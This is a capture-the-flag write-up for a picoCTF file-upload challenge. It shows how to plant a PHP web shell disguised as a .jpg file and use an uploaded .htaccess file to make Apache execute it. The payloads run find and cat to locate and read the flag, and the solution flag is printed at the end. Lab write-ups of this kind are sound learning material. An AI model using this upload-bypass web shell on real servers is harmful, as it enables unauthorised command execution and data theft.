


## Write-Up

author: yal212
## Description

A university's online registration portal asks students to upload their ID cards for verification. 
The developer put some filters in place to ensure only image files are uploaded but are they enough? Take a look at how the upload is implemented. 
Maybe there's a way to slip past the checks and interact with the server in ways you shouldn't.
Additional details will be available after launching your challenge instance.

## Inspection

Basically, we will need to find a way to try and get access of the flag by uploading malicious files containing PHP code that bypasses the website filter.

```hints
Apache can be tricked into executing non-PHP files as PHP with a .htaccess file.
```

From the hint, we can know that this challenge has something to do with using ***[[htaccess|.htaccess]]*** file to bypass the server into executing PHP code.

## Exploitation

We will first create a file called ***shell.jpg***:

```jpg
<?php echo system("find / -name flag* 2>/dev/null"); ?>
```

This script will help us find where the flag is located.

However, after uploading, the server doesn't executes the PHP code contained in the ***shell.jpg*** file. 

We can use ***.htaccess*** file to trick the server into executing the PHP code.

```.htaccess
<Files "shell.jpg">
AddHandler application/x-httpd-php .jpg
</Files>
```

After the server executed the PHP code, we can see a list of locations containing the keyword ***flag***.



Now we know that the flag we are looking for is probably located in:

```path
/var/www/flag.txt
```

So we can create another script ***solve.jpg***:

```jpg
<?php echo system("cat /var/www/flag.txt"); ?>
```

This will print out the text content in the path of the flag.

Before uploading, we will also need to upload another ***.htaccess*** to make the server execute  ***solve.jpg***:

```.htaccess
<Files "solve.jpg">
AddHandler application/x-httpd-php .jpg
</Files>
```

## Result



Flag:

> picoCTF{s3rv3r_byp4ss_191e9557}
